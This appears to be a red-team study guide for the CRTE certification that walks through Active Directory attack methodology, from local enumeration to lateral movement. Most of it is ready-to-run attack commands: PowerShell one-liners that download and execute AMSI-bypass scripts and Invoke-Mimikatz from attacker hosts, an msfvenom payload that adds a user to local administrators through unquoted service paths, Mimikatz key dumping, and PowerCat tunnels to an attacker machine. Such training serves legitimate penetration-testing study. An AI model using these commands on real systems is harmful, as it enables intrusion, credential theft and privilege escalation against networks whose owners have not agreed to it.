 # General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation: Domain Admin is not the only way to own an Active Directory environment.

>:exclamation: CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\demiidk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\demiidk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\demiidk\Documents\> powershell -c "iex (iwr -UseBasicParsing http://attacker.1/amsibypass.txt);iex (iwr -UseBasicParsing http://attacker/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.1/PowerView.ps1); import-module .\PowerView.ps1; Get-Domain"
```


```
PS C:\Users\demiidk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\demiidk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\demiidk\Documents\> Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1');"

```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .\PowerView.ps1
```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .\PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\demiidk\Documents\> whoami /GROUPS
```

### Importing and executing PowerUp

```
PS C:\Users\demiidk\Documents\> Import-Module .\PowerUp.ps1; Invoke-AllChecks
```

### Importing Active Directory Module.

```
PS C:\Users\demiidk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\demiidk\Documents\> Import-Module .\ActiveDirectory.psd1
```
<br>

## Step 02 - Local Privilege Escalation

<br>

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\demiidk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
demiidk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using admini strator privilege)

```
PS C:\Users\demiidk\Documents\> Import-Module .\Mimikatz.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-Mimikatz -Command "'sekurlsa::ekeys'"
```

### Using PowerUp:

```
PS C:\Users\demiidk\Documents\> import-module .\PowerUP.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-AllChecks 
```
![](2022-10-30-01-51-02.png)

<br>

## Step 03 - Active Directory enumeration

>:eye: Useful tools for enumerating
>
>PowerView -> Great tool for Active Directory enumeration.
>ADModule -> Signed DLL used for Active Directory management.
>PowerUPSQL -> Dedicated tool for auditing MSSQL.

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\demiidk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\demiidk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\demiidk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\demiidk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\demiidk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```

Enumerate MSSQL servers and instances:
```
PS C:\Users\demiidk\Documents\> Get-SQLInstanceBroadcast -Verbose
```

Test if MSSQL is accessible:

```
PS C:\Users\demiidk\Documents\> Get-SQLConnectionTest -Instance SQLSRV01\SQL -Verbose
```

## Step 04 - Lateral Movement.

### Tunneling with PowerCat

Attacker -> Compromised -> Target

```
PowerShell on Compromsided:

PS C:\Users\demiidk\Documents\> powercat -l -p 1306 -r tcp:Target:1306 -v 
```

Target -> Compromised -> Attacker

```
PowerShell on Compromsided:

PS C:\Users\demiidk\Documents\> powercat -l -p 1306 -r tcp:Attacker:1306 -v 
```